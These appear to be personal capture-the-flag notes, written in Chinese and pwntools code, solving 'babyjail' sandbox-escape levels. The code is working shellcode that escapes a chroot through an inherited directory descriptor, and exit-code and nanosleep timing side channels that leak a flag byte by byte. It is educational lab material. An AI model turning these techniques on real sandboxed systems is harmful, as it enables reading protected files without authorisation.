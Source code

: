 字符串在栈中
str="123456789"

mov rbx,0x3837363534333231
push 0x39
push rbx

esp:31 32 33 34 35 36 37 38
	39

.level2
mov rbx,0x6c662f2e2e2f2e2e
push 0x6761
push rbx
mov rax,2
mov rdi,rsp
mov rsi,0
syscall

.level3
context.log_level='DEBUG'
context.arch='amd64'
#../../../flag
p=process(["/challenge/babyjail_level3","/"])

#payload=asm(shellcode,arch='amd64')
#p.send(payload)
p.send(asm(f'''
{shellcraft.pushstr("flag")}
mov rsi,rsp
{shellcraft.openat(3,"rsi",0)}

{shellcraft.sendfile(1,4,0,1024)}
'''))

p.interactive()

.绕过chroot(),chdir()，利用带目录描述符的函数,前提条件是程序运行前打开了目录
1.
	openat(3,"flag",0)

.level10
//侧信道爆破
for i in range(60):
    p=process(["/challenge/babyjail_level10","/flag"])
#payload=asm(shellcode,arch='amd64')
#p.send(payload)
    p.send(asm(f'''

    {shellcraft.read(3,"rsp",60)}
    xor bl,bl
    mov bl,31
    A:
    add bl,1
    mov al,[rsp+%s]
    cmp al,bl
    jz E
    jmp A
    E:
    {shellcraft.exit("al")}
    '''%(i)))

    p.interactive()

.level 11
nanosleep asm
'''
push 0
push 1
mov rdi,rsp
mov rax,SYS_nanosleep
syscall
'''
from pwn import *
import time

iteration=log.progress("PROGRESS")
flag_progess=log.progress("FLAG")
flag=b""
context.arch='amd64'
for i in range(0,60):
    for b in range(32,126):
        iteration.status(f"Iteration {i},Byte {b}")

        start=time.time()

        with process(["/challenge/babyjail_level11","/flag"],level="CRITICAL") as target:
            target.send(asm(f"""
            sub rsp,0x1000
            {shellcraft.read(3,"rsp",100)}
            xor rax,rax
            mov al,[rsp+%s]

            cmp rax,{b}
            jne crash

            sleep:
            lea rdi,[rip+time]
            mov rax,SYS_nanosleep
            syscall

            crash:

            time:
            .8byte 2
            .8byte 0
            """%(i)))

            target.poll(True)

        end=time.time()
        if(end-start >2):
            flag+=bytes([b])
            flag_progess.status(repr(flag))
            break

